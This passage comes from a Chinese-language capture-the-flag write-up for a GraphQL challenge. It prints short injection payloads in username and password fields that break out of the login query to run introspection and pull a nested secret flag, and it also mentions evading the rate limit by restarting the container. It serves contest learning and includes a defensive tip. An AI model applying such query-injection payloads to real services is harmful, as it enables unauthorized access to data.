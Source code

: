 但这些都是我在开赛后发现有人被卡长度才想到的，一开始根本没意识到这里会卡住（

最短的 payload 只需要 130 字符的 `password`：

```
username = '",$password:String=""){login:#'
password = '\n__schema{ok:__typename username:types{name fields{name type{name}}}}x:#'
username = '",$password:String=""){login:#'
password = '\nsecret{username:secret_EKFB{secret_BUNy{secret_3gjd{secret_695y{secret_DL6P{secret_A1NB{secret_r6H0{flag2}}}}}}}ok:__typename}x:#'
```

这题的 rate limit 主要是用来 ban 掉每次用 `__type(name: "Secret_XXX")` 只查一个类型的单层字段，但如果你每问 200 次就重启一次容器，理论上可以在数十小时内尝试成功（

> [!TIP]
> GraphQL 默认开启 introspection，整个 schema 都是公开的。可以关闭 introspection 功能，但更好的做法是不要让应用的安全性依赖于 schema 的隐蔽性，[security through obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity) 是不好的。

### 彩蛋

这题的 schema 中还有一个彩蛋，本来发现它还比较困难，但给了一个 `secret.gql` 示例其实就容易发现了，但还是没人玩（

```graphql
type NotPartOfChallenge {
  selectOnePresetData(presetKey: String!, XH: String!, KCH: String!): Preset103765749452800
  formParser(status: String!, presetbind: String!, XH: String!, KCH: String!): Preset103765749452800
}

type Preset103765749452800 {
  msg: String
  status: String
  XH: String
  KCH: String
  KSRQ: String
  XNXQ: String
  XF: Int
  KCMC: String
  ZCJ: Int
}
```

THU 三字班以上的同学或许知道这是什么（

```json
{
  "selectOnePresetData": {
    "KCH": "77777777",
    "KCMC": "2025 “京华杯” 信息安全综合能力竞赛",
    "KSRQ": "20251024",
    "XF": 7,
    "XH": "2025019999",
    "XNXQ": "2025-2026-1",
    "ZCJ": -99
  }
}
```
